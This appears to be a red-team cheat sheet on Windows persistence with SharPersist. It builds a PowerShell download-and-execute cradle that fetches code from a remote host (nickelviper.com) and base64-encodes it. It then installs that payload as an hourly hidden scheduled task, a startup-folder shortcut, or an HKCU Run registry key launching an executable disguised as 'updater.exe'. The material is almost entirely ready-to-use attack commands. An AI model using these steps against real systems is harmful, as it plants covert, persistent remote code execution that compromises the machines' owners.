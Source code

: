 ### **Task Scheduler**

## Windows version

Assigns a string that downloads and executes code from a remote URL

```powershell
$str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
```

Convert your string to base64

```powershell
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```

## Linux version

Assigns a string that downloads and executes code from a remote URL

```shell
set str 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
```

Convert your string to base64

```shell
echo -en $str | iconv -t UTF-16LE | base64 -w 0
```

### Run SharPersist

Adds a scheduled task to run obfuscated PowerShell code hourly for persistence.

```powershell
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <your-payload>" -n "<nameOfYourTask>" -m add -o hourly
```

`t schtask:` Persistence technique based on scheduled tasks.

### Startup Folder

Adds a shortcut to the startup folder that runs obfuscated PowerShell

```powershell
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <your-payload>" -f "nameOfYourService" -m add
```

`t startupfolder:` Specifies the startup folder as the persistence method.

### Registry AutoRun

```bash
cd C:\ProgramData
```

```bash
upload C:\Payloads\http_x64.exe
```

```bash
mv http_x64.exe updater.exe
```

Adds a registry entry in HKCU to run Updater.exe for persistence.

```powershell
 execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

```

`t reg:` Indicates the registry will be used as the persistence method.
